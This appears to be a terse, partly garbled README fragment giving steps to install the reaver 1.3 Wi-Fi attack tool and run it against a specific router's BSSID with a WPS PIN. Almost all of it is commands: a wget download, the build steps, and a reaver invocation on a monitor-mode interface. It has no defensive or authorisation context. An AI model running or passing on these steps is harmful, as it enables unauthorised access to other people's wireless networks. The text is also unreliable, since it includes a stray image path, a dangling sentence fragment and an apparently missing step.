 Pin method
-------------
with alot of research. switch to 1.3 reaver version
To restart the network.

Follow steps to install reaver 1.3
> - :~# wget https://code.google.com/archive/p/reaver-wps/downloads/reaver-1.3.tar.gz

> - :~# tar -xvzf reaver-1.3.tar.gz
> - :~# cd reaverfolderpath/src
> - :~# sh ./configure
> - :~# make
> - :~# 
> - :~# reaver -i wlan0mon -b C4:E9:84:31:03:C6 -p 29650002  -S -N -vv -L
